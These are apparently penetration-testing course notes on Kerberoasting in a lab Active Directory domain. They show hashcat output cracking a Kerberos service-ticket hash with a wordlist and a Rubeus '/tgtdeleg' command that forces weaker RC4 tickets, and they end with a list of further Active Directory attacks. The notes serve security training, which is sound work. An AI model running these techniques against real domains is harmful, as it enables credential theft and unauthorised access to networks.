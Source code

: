 When the hash finally cracks, we see that it took 4 minutes 36 seconds for a relatively simple password on a CPU. This would be greatly magnified with a stronger/longer password.
```shell-session
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 18, TGS-REP
Hash.Target......: $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$8939f8c5b97...413d53
Time.Started.....: Sun Feb 27 16:07:50 2022 (4 mins, 36 secs)
Time.Estimated...: Sun Feb 27 16:12:26 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    10114 H/s (9.25ms) @ Accel:1024 Loops:64 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2789376/14344385 (19.45%)
Rejected.........: 0/2789376 (0.00%)
Restore.Point....: 2783232/14344385 (19.40%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4032-4095
Candidates.#1....: wenses28 -> wejustare
```


## tgtdeleg 
**Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account.**

We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

```powershell-session
  .\Rubeus.exe kerberoast /user:testspn /tgtdeleg /nowrap
```
![[kerb_tgs_18.webp]]
we can see that when supplying the `/tgtdeleg` flag, the tool requested an RC4 ticket even though the supported encryption types are listed as AES 128/256.




## A Note on E
# Extra attacks to learn

- Kerberos Delegations
- Unconstrained Delegation - Computers
- Unconstrained Delegation - Users
- Constrained Delegation Overview & Attacking from Windows
- Constrained Delegation from Linux
- RBCD Overview & Attacking from Windows
- RBCD from Linux
- Golden Ticket
- Golden Ticket from Linux
- Silver Ticket
- Silver Ticket from Linux
- Hardening/Mitigations
- Detection
- Skills Assessment

## Powerview